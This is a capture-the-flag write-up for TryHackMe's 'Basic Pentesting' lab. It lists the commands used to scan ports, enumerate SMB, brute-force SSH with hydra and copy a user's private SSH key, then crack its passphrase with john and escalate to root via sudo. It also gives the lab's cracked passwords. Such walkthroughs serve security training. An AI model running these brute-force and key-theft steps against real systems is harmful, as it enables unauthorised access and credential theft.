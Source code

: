 <img src="./images/THMlogo.png" alt="tryhackme" width="200"/>

# Basic Pentesting

## tryhackme

### nmap

```
Port 22 SSH
Port 80 HTTP
Port 139 Samba
Port 445 Samba
Port 8009 AJP
Port 8080 HTTP Apache Tomcat 9.0.7
```
### gobuster
Initial page under construction. Enumerate main page and find:
```
/development
```
Continue directory serach but nothing else shows.

Two files exisit:

dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
### smbmap

```
smbmap -H <IP>
```
Provides Anonymous account

```
smbclient //<IP>anonymous
```
Provides staff.txt letter confirming two usernames - Jay and Kay

### hydra

```
hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>
```
Provides Jan's password *armando*

### ssh

Logging into Jan's account does not show anything and also no ability to sudo.

Investigate /home directory and we find Kay:
```
pass.bak
.ssh
```
Copy id_rsa from .ssh file and save on attacker computer.

### john the ripper

Hash the key with the following command:
```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
Now use John to crack the hash. This only provides the passphrase for the public key.
```
/usr/sbin/john --wordlist=/root/Desktop/dict/rockyou.txt id_rsa.hash
```
We find *beeswax* is the passphrase.

## enumeration
Now login from Jan on the target host using:
```
ssh -i /home/kay/.ssh/id_rsa kay@<IP>
```
We now have Kay's account. Remember the pass.bak. Cat this:
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
Now see what we can do with sudo -l:

```
User kay may run the following commands on basic2:
  (ALL : ALL) ALL
```
So we have full control, just switch to root and after looking in the /root folder we have a congratulations flag.
